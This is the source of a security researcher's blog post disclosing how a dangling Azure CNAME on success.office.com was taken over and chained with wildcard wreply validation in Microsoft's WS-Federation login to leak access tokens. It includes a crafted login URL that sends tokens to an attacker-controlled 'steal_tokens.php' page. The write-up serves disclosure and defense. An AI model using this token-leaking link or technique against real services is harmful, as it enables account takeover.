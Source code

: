 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.

In the below screenshot, you can see the tokens getting leaked to the server I control:

<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />
<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>
### Media Coverage:

This finding has gained some media attention. A few of them are listed below:

#### NDTV: <a href="https://www.ndtv.com/kerala-news/kerala-based-security-engineer-spots-bug-in-microsoft-office-365-outlook-1961352" target="_blank">Link</a>
#### TechCrunch: <a href="https://techcrunch.com/2018/12/11/microsoft-login-bug-hijack-office-accounts/" target="_blank">Link</a>
#### MensXP: <a href="https://www.mensxp.com/technology/hacks/48785-a-kerala-based-engineer-uncovered-a-bug-that-could-expose-more-than-40-crore-microsoft-accounts.html" target="_blank">Link</a>
#### Mashable: <a href="https://mashable.com/article/microsoft-account-takeover-vulnerability" target="_blank">Link</a>
#### IndiaTimes: <a href="https://www.indiatimes.com/technology/news/this-young-hacker-from-kerala-found-a-microsoft-bug-saving-the-account-data-of-40-crore-users-358466.html" target="_blank">Link</a>

